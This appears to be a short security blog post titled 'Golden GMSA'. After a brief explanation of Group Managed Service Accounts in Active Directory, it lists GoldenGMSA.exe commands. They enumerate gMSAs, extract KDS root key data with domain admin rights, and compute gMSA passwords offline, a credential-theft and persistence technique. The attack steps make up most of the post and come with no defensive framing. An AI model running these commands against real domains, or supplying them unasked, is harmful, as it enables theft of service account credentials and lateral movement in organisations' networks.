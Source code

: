 ```yaml
---
layout: post
date: 26/11/2022
author: Aswin Gopalakrishnan
title:  Golden GMSA
---
```


A gMSA (Group Managed Service Account) is a special type of account in Active Directory (AD) designed to provide automatic password management and simplified service principal name (SPN) management for services running on multiple servers. Introduced in Windows Server 2012, gMSAs are used to run services and tasks securely without the need for manual password management. The passwords for gMSAs are automatically rotated and managed by AD, making them more secure and reducing administrative overhead

1. Enumerate all gMSA
```bash
GoldenGMSA.exe gmsainfo
GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112
```
2. As a domain admin
```bash
GoldenGMSA.exe kdsinfo
GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
```
3. Offline Compute
```bash
GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAA(snipped)m45
```
